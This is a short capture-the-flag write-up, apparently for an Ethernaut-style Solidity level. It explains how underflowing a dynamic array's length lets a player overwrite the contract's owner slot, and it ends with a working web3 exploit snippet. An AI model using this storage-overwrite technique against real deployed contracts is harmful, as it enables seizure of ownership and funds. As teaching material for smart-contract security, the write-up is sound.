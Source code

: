 ### Analysis
To finish the level we need to do the following steps:

1) Call the make_contact() function so that the contact is set to true. This will allow us to go through the contacted() modifier.
2) Call the retract() function. This will decrease the codex.length by 1. And what happens when you subtract 1 from 0 (initial array position)? You get an underflow. This will change the codex.length to be 2256 which is also the total storage capacity of the contract. This will now allow us access to any variables stored in the contract.
3) Call the revise() function to access the array at slot 0 and update the value of the _owner with our own address. The index i can be calculated as shown in the slot table above.


### The Exploit

Run the code in Developer Tools:
~~~
p = web3.utils.keccak256(web3.eth.abi.encodeParameters(["uint256"], [1]))
i = BigInt(2 ** 256) - BigInt(p)
content = '0x' + '0'.repeat(24) + player.slice(2)
await contract.revise(i, content)
await contract.owner() === player // Output: true
~~~